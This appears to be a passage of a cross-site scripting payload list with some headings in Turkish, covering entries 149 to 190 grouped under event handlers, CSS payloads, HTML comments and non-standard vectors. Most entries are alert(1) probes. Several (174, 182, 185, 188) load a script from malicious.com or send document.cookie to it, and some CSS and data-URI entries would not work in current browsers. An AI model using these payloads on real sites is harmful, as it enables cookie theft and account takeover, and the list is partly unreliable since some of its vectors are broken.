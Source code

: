 149. `<img src="data:text/html,<script>eval('alert(document.cookie)')</script>">`
150. `<img src="data:text/html,<script>Object.defineProperty(window, 'alert', { value: function() { document.body.innerHTML = '<img src=x onerror=alert(2)>' } })</script>">`

## JavaScript Event Handlers
151. `<button onclick="alert(1)">Click me</button>`
152. `<a href="#" onclick="alert(1)">Click me</a>`
153. `<img src="x" onerror="alert(1)">`
154. `<div onclick="alert(1)">Click me</div>`
155. `<span onclick="alert(1)">Click me</span>`
156. `<input onfocus="alert(1)">`
157. `<select onchange="alert(1)"><option>Option</option></select>`
158. `<textarea oninput="alert(1)">Text</textarea>`
159. `<iframe onload="alert(1)"></iframe>`
160. `<video onplay="alert(1)"></video>`

## CSS Payload'ları
161. `<style>body:before { content: url('javascript:alert(1)'); }</style>`
162. `<style>body:after { content: url('javascript:alert(1)'); }</style>`
163. `<style>div { background: url('javascript:alert(1)'); }</style>`
164. `<style>body { background: url('javascript:alert(1)'); }</style>`
165. `<style>@import url("javascript:alert(1)");</style>`
166. `<style>@import url("data:text/html,<script>alert(1)</script>");</style>`
167. `<style>body { background-image: url('data:text/html,<script>alert(1)</script>'); }</style>`
168. `<style>@import url("data:text/html,<script>alert(1)</script>");</style>`

## HTML Comments
169. `<!-- <script>alert(1)</script> -->`
170. `<!-- <img src="x" onerror="alert(1)"> -->`
171. `<!-- <iframe src="javascript:alert(1)"></iframe> -->`
172. `<!-- <object data="javascript:alert(1)"></object> -->`
173. `<!-- <embed src="javascript:alert(1)"></embed> -->`
174. `<!-- <script src="https://malicious.com/xss.js"></script> -->`
175. `<!-- <style>@import url("javascript:alert(1)");</style> -->`
176. `<!-- <style>@import url("data:text/html,<script>alert(1)</script>");</style> -->`

## Non-standard Payload'lar
177. `<input type="image" src="javascript:alert(1)">`
178. `<iframe src="data:text/html,<script>alert(1)</script>"></iframe>`
179. `<object data="data:text/html,<script>alert(1)</script>"></object>`
180. `<embed src="data:text/html,<script>alert(1)</script>"></embed>`
181. `<a href="javascript:alert(1)">Click me</a>`
182. `<a href="javascript:fetch('https://malicious.com?cookie=' + document.cookie)">Click me</a>`
183. `<a href="javascript:eval('alert(1)')">Click me</a>`
184. `<a href="data:text/html,<script>alert(1)</script>">Click me</a>`
185. `<a href="data:text/html,<script>fetch('https://malicious.com?cookie=' + document.cookie)</script>">Click me</a>`
186. `<a href="data:text/html,<script>eval('alert(document.cookie)')</script>">Click me</a>`
187. `<a href="data:text/html,<script>Object.defineProperty(window, 'alert', { value: function() { document.body.innerHTML = '<img src=x onerror=alert(2)>' } })</script>">Click me</a>`
188. `<a href="data:text/html,<script>eval("fetch('https://malicious.com/?cookie='+document.cookie)")</script>">Click me</a>`
189. `<a href="data:text/html,<script>window['constructor']['prototype']['alert']('XSS')</script>">Click me</a>`
190. `<a href="data:text/html,<script>document.body.innerHTML = '<img src=x onerror=alert(1)>'</script>">Click me</a>`
